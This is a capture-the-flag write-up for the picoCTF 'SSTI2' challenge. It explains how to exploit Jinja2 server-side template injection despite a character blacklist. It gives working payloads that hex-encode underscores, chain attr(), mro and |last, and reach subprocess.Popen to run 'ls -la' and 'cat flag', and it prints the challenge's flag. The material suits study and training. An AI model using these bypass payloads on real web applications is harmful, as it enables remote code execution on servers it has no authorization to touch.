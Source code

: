 # SSTI2
## Description: 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. Using the payload `{{7*'7'}}`, we get `7777777`. Thus, Jinja2 is being used.
2. However, when we run `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`, the website return "Stop trying to break me message", indicating filter is being used.
3. To solve this, I refer to the websites https://ctf.zeyu2001.com/2021/csaw-ctf-qualification-round-2021/ninja and https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f to learn about bypassing blacklist filter.
4. First, when I try out `().__class__`, it is getting blocked as the underscore is being blacklisted.
5. Try encode the underscore with '\x5f' by using the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')}}'**. Bypass successful.
6. Next, just search **<class ‘subprocess.Popen’>** in subclasses using **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')}}'**
7. However, nothing is returned. To test that, we will first try **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')}}**
8. Nothing is returned, suggesting `__base__` maybe blocked.
9. Through ChatGPT, it is suggesting us to use **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()}}'** and it works successfully.
10. But, as we try on the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()[-1]}}'**, it generates internal server error. But as we change [-1] to [1], it is blocked due to blacklisting on [].
11. Through ChatGPT, it is suggesting us to use **|last** instead of [-1]. So, the new payload is **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last}}'** and it returns **<class 'object'>**.
12. Next, to get a list of all built-in Python classes, we will access `__subclassess__()` using the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()}}'**
13. It will return list of subclasses. We are interested in getting the index of **subprocess.Popen**.
14. To get the index, copy all the return subclasses into a file name subclasses.txt and run this python script on it.

    ```python
    with open('subclasses.txt') as p:
        check = p.read()
    for index, value in enumerate(check.split(',')):
        if "<class 'subprocess.Popen'>" in value:
            print(index)
    ```
15. The index of **subprocess.Popen** is 356.
16. Subprocess is found in index 356, but the problem is we can’t use []. We can replace the array [] by using the `__getitem__` method.
17. So, we will use the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)}}'**.
18. For, RCE try the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)('ls -la',shell=True,stdout=-1)|attr('communicate')()}}'** to list all the files.
19. To read the flag, use **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)('cat flag',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}'**
20. picoCTF{sst1_f1lt3r_byp4ss_e964f71b}


